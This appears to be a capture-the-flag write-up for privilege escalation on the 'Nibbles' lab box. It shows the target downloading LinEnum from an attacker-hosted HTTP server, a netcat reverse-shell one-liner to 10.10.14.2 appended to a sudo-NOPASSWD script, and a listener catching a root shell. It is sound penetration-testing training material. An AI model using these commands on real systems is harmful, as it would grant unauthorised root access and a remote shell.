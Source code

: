 # Nibbles — Privilege Escalation (Summary)

**Goal:** Escalate privileges from `nibbler` to `root` after obtaining a reverse shell.

---

## Quick summary
- Unzipped `personal.zip` and found `personal/stuff/monitor.sh`.
- `monitor.sh` is owned by `nibbler` and is writable by that user.
- Downloaded `LinEnum.sh` via a Python HTTP server to automate enumeration.
- LinEnum revealed that `nibbler` can run `/home/nibbler/personal/stuff/monitor.sh` via `sudo` **without a password** (NOPASSWD).
- Because `monitor.sh` is writable by `nibbler`, appending a reverse-shell payload and executing it with `sudo` yields a root shell.
- Caught the root shell on a listening `nc` (netcat) and retrieved `root.txt`.

---

## Key commands & steps

**Unzip personal.zip**
```bash
unzip personal.zip
# creates personal/stuff/monitor.sh
```

**Inspect monitor.sh**
```bash
cat personal/stuff/monitor.sh
# file is owned by nibbler and writable
```

**Host LinEnum on attacker machine**
```bash
sudo python3 -m http.server 8080
# on attacker: wget http://<attacker_ip>:8080/LinEnum.sh from target
```

**Make LinEnum executable and run**
```bash
chmod +x LinEnum.sh
./LinEnum.sh
# reveals sudo NOPASSWD for monitor.sh
```

**Append reverse shell to monitor.sh (make backup first)**
```bash
cp monitor.sh monitor.sh.bak
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```

**Execute monitored script as root**
```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

**Listener (attacker)**
```bash
nc -lvnp 8443
# catch root shell
id
# uid=0(root) gid=0(root) groups=0(root)
```

---

## Observations & suggestions
- Writable files that are executable via `sudo` with NOPASSWD are high-risk — if you can modify them, you can escalate.
- Always make a backup before editing files used for privilege escalation to avoid breaking functionality.
- After gaining root, collect `root.txt` and conduct post-exploitation enumeration responsibly (only in authorized labs).

---

## Next steps (practice)
- Remove the appended payload and restore the original `monitor.sh` from backup.
- Try alternative escalation methods: inspecting SUID binaries, weak sudoers entries, cron jobs, and sensitive config files.
- Practice the same steps on different boxes to build muscle memory.
